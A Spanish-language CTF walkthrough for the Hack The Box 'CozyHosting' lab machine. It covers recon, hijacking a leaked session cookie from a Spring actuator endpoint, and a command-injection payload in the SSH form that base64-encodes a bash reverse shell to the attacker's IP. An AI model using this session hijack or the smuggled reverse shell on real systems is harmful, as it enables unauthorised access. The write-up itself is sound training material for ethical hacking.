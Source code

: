 # CozyHosting Guia

En este repositorio se busca explicar paso a paso la búsqueda de la bandera. Pensé en crear esto para las personas nuevas en el mundo del hacking ético y que no se sientan tan abrumadas con tantos conceptos.

**Lo primero que haremos es identificar nuestra máquina que querremos atacar, que en este caso es la CozyHosting. Esta tiene la siguiente información:**

- **IP: 10.10.11.230**

## Editar el archivo /etc/hosts

Para comenzar, necesitamos editar nuestro archivo `/etc/hosts` utilizando el siguiente comando:

```
sudo nano /etc/hosts
```

- **`sudo`**: "sudo" es un comando en sistemas Unix y Linux que significa "superusuario do". Permite a un usuario ejecutar un comando con privilegios elevados, generalmente como el superusuario o administrador del sistema. El uso de "sudo" es necesario para editar archivos que requieren permisos de administrador, como el archivo `/etc/hosts`.

- **`nano`**: "nano" es un editor de texto en la línea de comandos. Es una herramienta simple y fácil de usar para editar archivos de texto en la terminal. En este caso, se utiliza para abrir y editar el archivo `/etc/hosts`.

- **`/etc/hosts`**: "/etc/hosts" es la ruta completa al archivo que estás tratando de abrir y editar. Este archivo es importante porque se utiliza para resolver nombres de host a direcciones IP en sistemas Unix y Linux. Cuando tu computadora intenta acceder a un sitio web o un recurso en la red, primero verifica si la dirección IP correspondiente está en este archivo antes de recurrir a un servidor DNS público. Agregar entradas en este archivo te permite personalizar la resolución de nombres en tu sistema local.

![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/856ef6b8-7ca9-41b1-85d2-c73c7b9f8cdd)

**Ya dentro, procedemos a agregar nuestra IP junto con la URL.**

![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/e9507dcf-d020-4aad-95be-1508f01a9262)

*(para guardar con Ctrl+O, Ctrl+X, yes, te preguntará si quieres cambiar el nombre, simplemente dale enter)*


![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/59792084-eb50-4ae9-939a-b4095ad38a13)

*Para comprobar que hicimos todo bien, podemos entrar a http://cozyhosting.htb. en resumen utilizar el comando "sudo nano /etc/hosts" es importante para personalizar la resolución de nombres en tu sistema local y permitirte acceder a máquinas o servicios específicos en entornos de CTF como Hack The Box, donde es común que los nombres de host y direcciones IP se utilicen de manera no convencional.*



## NMAP 

```
nmap -sS -sV -p- 10.10.11.230 -o cozyhosting
```
- **`Identificación de puertos abiertos (-p-)`**:La opción -p- le indica a Nmap que escanee todos los puertos posibles en el rango completo (1-65535). Esto es importante porque, en muchos casos, no sabes qué puertos pueden estar abiertos en la máquina objetivo. Al escanear todos los puertos, te aseguras de no pasar por alto ningún servicio o aplicación que pueda estar en ejecución.

- **`Escaneo de tipo SYN (-sS)`**:El escaneo de tipo SYN es un escaneo sigiloso y menos intrusivo. Envía paquetes SYN a los puertos y espera respuestas. Si recibe una respuesta SYN/ACK, sabe que el puerto está abierto. Si recibe un RST (restablecimiento) en respuesta, el puerto está cerrado. Este tipo de escaneo es útil para determinar la accesibilidad de los puertos sin establecer completamente la conexión, lo que podría dejar rastros en el servidor objetivo.

- **`Detección de servicios y versiones (-sV)`**: La opción -sV le permite a Nmap intentar detectar el servicio que se ejecuta en un puerto y, en algunos casos, incluso la versión específica del software. Esto es útil para identificar qué servicios están en funcionamiento en la máquina objetivo y conocer las vulnerabilidades asociadas a esas versiones específicas.

- **`Generación de un informe de resultados (-o)`**:Al utilizar la opción -o seguida de un nombre de archivo, puedes generar un informe de resultados que contiene los detalles del escaneo. Esto te permite registrar la información que obtuviste y revisarla posteriormente. Además, es útil para documentar tu progreso y compartir información con otros miembros de tu equipo en CTF.

![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/b43b57da-65ea-4b44-8ae8-1c43d3c69ccd)
- **`Resultado(-o)`**:Hacer un escaneo Nmap con las opciones -sS -sV -p- en la dirección IP 10.10.11.230  es mportante en la fase de reconocimiento y enumeración de un CTF (Capture The Flag) en Hack The Box o en cualquier otro entorno de pruebas de penetración.


## Dirsearch 
```
dirsearch -u http://cozyhosting.htb/
```

- **`Deteccion de rutas`**:Esta herramienta se utiliza para buscar posibles rutas y recursos accesibles en un sitio web o servidor web. Aquí te explico por qué es importante utilizar dirsearch en un CTF de Hack The Box o en cualquier escenario de pruebas de penetración. Con poner la url del objetivo, ya podremos acceder a sus posibles rutas.

- - **`Si llegaras a tener problemas con el Dirsearch`**: Sigue los siguientes comando si el mismo Kali te niega instalarlo. 
  ```
    git clone https://github.com/maurosoria/dirsearch.git
  ```
  ```
  cd dirsearch
  ```
  ```
  python3 dirsearch.py -u http://cozyhosting.htb/
   ```
- Ya acabo el trabajo de Dirsearch, tendras un resultado como este
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/4869a22d-4963-4b92-85ed-0fa89b44fc11)}
- Analizamos y encontraremos la siguiente ruta
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/c3df4a7e-dfb8-4fff-9b24-f90132d437d8)
- A la cual accederemos con la URL que ya teniamos de CozyHosting. Lo que vemos son las sesiones y notamos que la de kanderson es la unica que no dice "no autorizado" y con un cookie que usaremos para engañar al login.
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/76305964-d943-4ac7-ac57-8df637e72b75)

## Inyección de Cookies
- Ya teniendo la informacion anterior, ya podemos acceder al panel. Esto lo haremos por medio de la inyeccion por cookies.
 **`¿Que es la inyeccion por cookies?**: se refiere a la manipulación maliciosa o indebida de las cookies en una aplicación web. Las cookies son pequeños fragmentos de datos que un servidor web envía al navegador del usuario para almacenar información, como sesiones de usuario, preferencias y estados de autenticación. Cuando las cookies no se manejan adecuadamente, pueden surgir vulnerabilidades que permiten a un atacante inyectar o modificar cookies para obtener un acceso no autorizado o realizar ataques dirigidos.
- Esto eran lo datos que habiamos sacados de http://cozyhosting.htb/actuator/sessions
- Ahora entramos a http://cozyhosting.htb/admin (Esta URL la sacamos del paso anterior)
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/3c771f04-ef6a-4945-b340-6d6ca45bef60)

- Ingrsamos "inspeccionar codigo" y accedemos a Storange
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/410902b4-cd14-456c-aa82-9a0b843073bf)
- Remplazamos el valor que tiene , por el que sacamos en el paso anterior, dentro de http://cozyhosting.htb/actuator/sessions y la cookie de Kanderson.
- Ya agregada, refrescamos
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/e6f834a9-6cee-4b8c-b18f-11f37db5d4f6)
- luego ponemos una usario y contraseña que sea igual por ambos lados. Usario:123 Contraseña:123
- Si hicimos todo bien ahora estamos dentro
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/94d52f93-8cc9-4b48-841d-19d6952e00f8)


## Burpsuite
- Ya teniendo el paso anterior. Toca escuchar las entradas del sitio web. Usaremos la herramienta de Burpsuite. Esta herramienta nos ayuda a escuchar el trafico que sufre el proxy. Para esto primero necesitamos.
  **`Cambiar el puerto proxy de nuestro navegador`**:La herramineta escucha por medio de la 127.0.0.1 y el puerto 8080, lo que necesitamos hacer es que en nuestro navegador agregaremos estas configuraciones
  ![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/7b2d3b5c-90f8-4eb4-8db1-e471dbce261a)
- Hacemos pruebas. Podemos repetir el paso anterior pero con el Burpsuite activo y ver como funciona. 

## inyección de shell
-Si revisamos la pagina, nos daremos cuenta que hay un apartado de SSH. Lo cual nos puede servir para entrar directamente a su servicio por medio de inyección de shell y Burpsuite
- **`¿Que es la inyección de shell?**:La inyección de comandos se refiere a una vulnerabilidad en la que un atacante puede insertar comandos maliciosos o instrucciones en una entrada de datos que luego se ejecutan en el sistema objetivo a través de una conexión SSH u otro protocolo.
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/da3f192a-28e4-4ff4-9754-1c15cdcf9e9a)

- Procedemos a escribir 
- Usario:
 ```localhost```
-   Contraseña:
  ```kanderson;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4zLzk5OTkgMD4mMQ=="|base64${IFS}-d|bash;```
-   Ya ingresado, revisamos el Burpsuite
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/afc53d27-78bb-44ab-969f-e6c2fa362e4d)
- Click Derehco y send to repeater
- Si tarda en respondernos es buena señal
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/caff2d63-f748-4199-9633-e8fed77d0b35)
-Ahora iniciamos la virtual machine para descargar el jar python3 -m
```http.server 9999  ```
- El siguiente paso es saber nuestra ip, para ello usamos
- ```ifconfig ```
- La ip esta en ![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/60f6410c-ddf6-4e72-a7a0-796317875ae1)

- La copiamos y lo pegamos
- Ya con la ip usamos este comando
```curl "TUIP BORRA LAS COMILLAS" :9999/cloudhosting-0.0.1.jar > cloudhosting.jar```
- Si todo salio bien, nos saldra algo asi. Lo que significa que se descargo con exito.
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/76099734-7371-4c0e-b4e9-d967a80c2cfe)
- Luego buscamos donde esta el archivo con
```pwd```       
- ya sabiendo lo abrimos
  ```cd /root```
```java -jar cloudhosting.jar```

      


